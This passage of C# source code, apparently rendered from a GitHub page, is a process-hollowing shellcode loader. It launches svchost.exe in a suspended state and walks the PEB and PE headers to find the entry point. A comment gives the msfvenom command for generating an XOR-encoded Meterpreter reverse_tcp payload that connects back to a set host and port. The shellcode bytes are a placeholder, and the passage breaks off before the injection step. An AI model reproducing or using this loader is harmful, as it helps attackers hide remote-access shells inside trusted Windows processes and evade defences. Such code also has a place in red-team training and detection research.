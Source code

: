 ```csharp
            {
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.232.133 LPORT=443 EXITFUNC=thread -f csharp
            // XORed with key 0xfa
            byte[] buf = new byte[511] {<[payload]>};

            // Start 'svchost.exe' in a suspended state
            StartupInfo sInfo = new StartupInfo();
            ProcessInfo pInfo = new ProcessInfo();
            bool cResult = CreateProcess(null, "c:\\windows\\system32\\svchost.exe", IntPtr.Zero, IntPtr.Zero,
                false, CREATE_SUSPENDED, IntPtr.Zero, null, ref sInfo, out pInfo);
            Console.WriteLine($"Started 'svchost.exe' in a suspended state with PID {pInfo.ProcessId}. Success: {cResult}.");

            // Get Process Environment Block (PEB) memory address of suspended process (offset 0x10 from base image)
            ProcessBasicInfo pbInfo = new ProcessBasicInfo();
            uint retLen = new uint();
            long qResult = ZwQueryInformationProcess(pInfo.hProcess, PROCESSBASICINFORMATION, ref pbInfo, (uint)(IntPtr.Size * 6), ref retLen);
            IntPtr baseImageAddr = (IntPtr)((Int64)pbInfo.PebAddress + 0x10);
            Console.WriteLine($"Got process information and located PEB address of process at {"0x" + baseImageAddr.ToString("x")}. Success: {qResult == 0}.");

            // Get entry point of the actual process executable
            // This one is a bit complicated, because this address differs for each process (due to Address Space Layout Randomization (ASLR))
            // From the PEB (address we got in last call), we have to do the following:
            // 1. Read executable address from first 8 bytes (Int64, offset 0) of PEB and read data chunk for further processing
            // 2. Read the field 'e_lfanew', 4 bytes at offset 0x3C from executable address to get the offset for the PE header
            // 3. Take the memory at this PE header add an offset of 0x28 to get the Entrypoint Relative Virtual Address (RVA) offset
            // 4. Read the value at the RVA offset address to get the offset of the executable entrypoint from the executable address
            // 5. Get the absolute address of the entrypoint by adding this value to the base executable address. Success!

            // 1. Read executable address from first 8 bytes (Int64, offset 0) of PEB and read data chunk for further processing
            byte[] procAddr = new byte[0x8];
            byte[] dataBuf = new byte[0x200];
            IntPtr bytesRW = new IntPtr();
            bool result = ReadProcessMemory(pInfo.hProcess, baseImageAddr, procAddr, procAddr.Length, out bytesRW);
            IntPtr executableAddress = (IntPtr)BitConverter.ToInt64(procAddr, 0);
            result = ReadProcessMemory(pInfo.hProcess, executableAddress, dataBuf, dataBuf.Length, out bytesRW);
            Console.WriteLine($"DEBUG: Executable base address: {"0x" + executableAddress.ToString("x")}.");

            // 2. Read the field 'e_lfanew', 4 bytes (UInt32) at offset 0x3C from executable address to get the offset for the PE header
            uint e_lfanew = BitConverter.ToUInt32(dataBuf, 0x3c);
            Console.WriteLine($"DEBUG: e_lfanew offset: {"0x" + e_lfanew.ToString("x")}.");

            // 3. Take the memory at this PE header add an offset of 0x28 to get the Entrypoint Relative Virtual Address (RVA) offset
```